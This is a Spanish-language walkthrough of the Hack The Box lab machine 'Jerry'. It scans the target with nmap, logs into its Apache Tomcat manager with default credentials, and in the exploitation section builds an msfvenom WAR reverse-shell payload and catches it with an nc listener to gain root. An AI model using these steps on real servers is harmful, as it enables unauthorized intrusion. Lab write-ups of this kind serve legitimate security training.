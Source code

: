 ```yaml
---
description: '✍️ Autor: egre55🔍 Dificultad: Fácil 📅 Fecha de creación: 11/11/2018'
---
```


# Jerry

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.95
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1256).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.95
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1257).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 8080 (HTTP)**: Se ha detectado un servidor web Apache Tomcat con la versión 7.0.88 en ejecución. Esta versión puede contener vulnerabilidades conocidas, por lo que se recomienda verificar exploits públicos relacionados.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p8080 -v 10.10.10.95
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1258).png" alt=""><figcaption></figcaption></figure>

Revisando el puerto 8080 nos encontramos con un Apache Tomcat por lo que nos intentamos loguear con las credenciales por defecto.

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html" %}

Nos logueamos con **admin**:**admin.**

<figure><img src="../../.gitbook/assets/image (1259).png" alt=""><figcaption></figcaption></figure>

Nos salen unas credenciales para loguearnos.

<figure><img src="../../.gitbook/assets/image (1260).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vemos que podemos subir archivos por lo que creamos uno malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f war -o reverse2.war
```

<figure><img src="../../.gitbook/assets/image (1261).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (1262).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (1263).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1264).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1265).png" alt=""><figcaption></figcaption></figure>
